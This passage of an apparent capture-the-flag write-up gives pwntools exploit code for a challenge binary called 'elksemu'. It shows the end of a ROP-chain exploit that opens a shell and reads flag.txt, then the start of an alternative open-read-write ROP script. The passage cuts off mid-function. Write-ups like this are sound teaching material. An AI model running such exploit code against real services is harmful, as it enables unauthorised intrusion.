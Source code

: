 ```python

sl(offset+chain2)
sleep(0.2)
#sleep(1)
sl(b"cat flag.txt")
io.interactive()
```

On a side note: this solution has been proposed by one of my teammates. The original solution has been devised WITHOUT using the xchg gadget and WITHOUT opening a shell, thus using open-read-write chain. This can be done as a useful exercise to improve your skills. I report the code below as a reference for the reader.

### Alternative Solution: Open-Read-Write ROP Chain

This is an alternative solution that employs open-read-write without an xchg gadget. The code is very similar (it’s just much longer as it requires to set each syscall), but the original chain is a bit more complicated for each system call, and there is no need to reset the program :-).

```python
from pwn import *

#### USE launch.json to edit arguments
#### PROCESS INFORMATION ####

try:
    sh.close()
except:
    pass

#context.terminal = 'tmux'

# Insert process data here
context.clear(arch='amd64')
context.log_level = 'info'
context.terminal = ["tmux", "neww", "-n", "shell"]
filename = 'elksemu'

# Remote host information
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 1616)

exe = context.binary = ELF(filename)
libc = exe.libc

#### PROCESS START HELPERS ####

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, api=True)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript, api=True)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
```